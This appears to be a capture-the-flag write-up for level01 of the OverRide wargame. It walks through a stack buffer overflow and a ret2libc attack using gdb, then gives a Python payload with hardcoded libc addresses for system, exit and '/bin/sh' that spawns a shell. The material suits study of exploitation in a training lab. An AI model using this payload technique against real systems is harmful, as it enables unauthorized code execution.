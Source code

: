 # Override Level01 Exploit Write-up

## Step-by-step Exploit (Working Example)

This write-up documents the complete process to exploit `level01` from the OverRide wargame. It contains exact commands and outputs verified during the exploit.

---

## 🛠️ Objective

The goal is to gain a shell using buffer overflow in the `level01` binary by overwriting the return address with a call to `system("/bin/sh")`.

---

## 🔍 Analyzing the Binary

### Launch `gdb` and disassemble `main()`

```bash
gdb -q ./level01
disas main
```

Look for two `fgets()` calls and the logic flow after checking return values of `verify_user_name` and `verify_user_pass`.

### Confirm logic with breakpoints

```gdb
b main
run
```

---

## 🧪 Testing the Vulnerability

Inside `main`, the second `fgets()` reads user input into a buffer of size 16 (on the stack), but accepts 100 bytes:

```c
char buffer[16];
fgets(buffer, 100, stdin); // overflow possible
```

So we can overwrite the saved return address (EIP).

---

## 🔎 Finding the Offset to EIP

To find the exact offset at which EIP is overwritten:

```bash
python -c 'print("dat_wil\n" + "A"*100)' > /tmp/input.txt
gdb ./level01
r < /tmp/input.txt
```

In GDB, if the crash occurs, use:

```gdb
info registers
```

You’ll see something like:

```
EIP: 0x41414141 ('AAAA')
```

Try different lengths (e.g., 76, 80, 84…) until EIP is overwritten with `0x42424242` (or any pattern you pick).

**In our case, the offset is 80 bytes.**

---

## 📍 Finding Addresses

### 1. `system()` address:

```gdb
find 0xf7e2c000, 0xf7fcc000, "system"
```

Example result:

```
0xf7e6aed0
```

Use:

```gdb
x/s 0xf7e6aed0
```

### 2. `exit()` address:

```gdb
info functions exit
x/s 0xf7e5eb70
```

### 3. String "/bin/sh":

```gdb
find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
```

Result:

```
0xf7f897ec
```

---

## 🧨 Final Payload

Now construct the payload:

```bash
python -c 'print("dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")' > /tmp/payload
```

Breakdown:

* `"dat_wil\n"`: valid username
* `"A"*80`: fill buffer up to return address
* `system()` address: `0xf7e6aed0`
* `exit()` address:   `0xf7e5eb70`
* `"/bin/sh"` string: `0xf7f897ec`

### Test it

```bash
(cat /tmp/payload; cat) | ./level01
```

If successful, you should get a shell:

```bash
whoami
level02
```

---

## 🧠 Summary

* Vulnerability: Buffer overflow on password input.
* Offset to EIP: 80 bytes.
* Overwritten return address → `system("/bin/sh")`.
* Used GDB to find real libc addresses dynamically.

---

✅ Done. You now have a working shell and root cause understanding.

---

## 🧾 Notes

Make sure to re-confirm the addresses before each exploitation attempt, as they might change on every run.
